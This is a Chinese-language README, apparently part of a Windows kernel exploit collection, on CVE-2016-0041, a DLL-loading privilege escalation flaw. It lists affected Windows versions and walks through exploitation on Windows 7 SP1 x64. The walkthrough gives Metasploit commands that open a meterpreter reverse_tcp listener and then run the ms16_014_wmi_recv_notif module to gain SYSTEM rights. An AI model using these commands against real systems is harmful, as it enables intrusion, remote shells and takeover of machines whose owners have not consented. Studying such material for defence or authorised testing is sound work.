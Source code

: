 ### CVE-2016-0041

#### 描述

错误处理了DLL加载，从而允许本地加载获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested                   |
| ------------------- | ---------------- | ------- | ------ | ------------------------ |
| Windows 10          |                  |         |        |                          |
| Windows 10          |                  | 1511    |        |                          |
| Windows 7           |                  |         | SP1    | :heavy_check_mark:       |
| Windows 8.1         |                  |         |        |                          |
| Windows Rt 8.1      |                  |         |        |                          |
| Windows Server 2008 |                  |         | SP2    | :heavy_multiplication_x: |
| Windows Server 2008 |                  | R2      | SP1    | :heavy_multiplication_x: |
| Windows Server 2012 |                  |         |        | :heavy_multiplication_x: |
| Windows Server 2012 |                  | R2      |        | :heavy_multiplication_x: |
| Windows Vista       |                  |         | SP2    |                          |

#### 利用方式

测试了网上能够找到的c++代码版本，Windows 7 x86/x64都会蓝屏，Windows Server 2008/2012所有版本都没反应，所有这边只能使用MSF版本。MSF版本中只有`payload/windows/x64/meterpreter/reverse_tcp`版本的反弹shell能够利用，`payload/windows/meterpreter/reverse_tcp`版本利用失败

测试系统Windows 7 SP1 x64，首先进行监听

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

可以看到如下的反弹shell

![CVE-2016-0041_win7_sp1_x64_01](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_01.png?raw=true)

接着使用提权漏洞

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_02.png?raw=true)

可以看到我们最后成为了SYSTEM权限
